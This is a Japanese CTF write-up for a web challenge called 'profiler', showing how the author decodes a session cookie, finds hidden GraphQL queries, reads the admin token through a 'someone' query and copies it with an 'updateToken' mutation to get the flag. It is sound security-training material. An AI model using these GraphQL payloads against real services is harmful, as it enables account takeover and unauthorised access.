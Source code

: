 # profiler
301 pt (59 Solves)
```
Let's edit your profile with profiler!

Hint: You don't need to deobfuscate *.js

Notice: Server is periodically initialized
```

## 概要
`Register`と`Login`画面。  
- Register  
`Registered successfully. Your token is [token]. Don't lose it! `と表示される。  
- Login  
  プロフィール画面に遷移。`Update`と`Get FLAG`と`Logout`がある。  
    - Update  
    プロフィール文を更新する。`token`が必要
    - Get FLAG  
    `Sorry, your token is not administrator's one. This page is only for administrator(uid: admin).`と表示される。
    - Logout  
    そのまま。ログアウトされる

tokenが違うらしい。

## 解

cookieを見てみると`eyJ1aWQiOiJ5MGQzbiJ9.Xss_Lw.IlBxusBEtcQMdmOTy6eRjHtcjy4`。  
最初の値`eyJ1aWQiOiJ5MGQzbiJ9`をbase64デコードすると`{"uid":"y0d3n"}`。(y0d3nはログインしてるID)  
`{"uid":"admin"}`に書き換えても「tokenが違う」と怒られて上手くいかない。  

burpで通信を見てみるとGraphqlでいろいろしてる。Graphql playgroundでみてみる。

```
querys{
    me
    someone
    flag
}
mutations{
    updateProfile
    updateToken
}
```

といったかんじ。普通に使ってたら`me`,`flag`,`updateProfile`だけつかわれてる。
通信を書き換えてよしなにしていく。

```
{"query":"{someone(uid:\"admin\"){uid,name,profile,token}}"}
```

POSTで上のqueryを送信するとadminの情報が返ってくる。

```
{
  "data": {
    "someone": {
      "name": "admin",
      "profile": "Hello, I'm admin.",
      "token": "[token]",
      "uid": "admin"
    }
  }
}
```

返ってきたtokenを使って`updateToken`を送信。

```
{"query":"mutation{updateToken(token:\"[token]\")}"}
```

成功すると自分のtokenがadminと同じものに書き変わる。

`Get FLAG`を開くとFlag。

```
ctf4b{plz_d0_n07_4cc3p7_1n7r05p3c710n_qu3ry}
```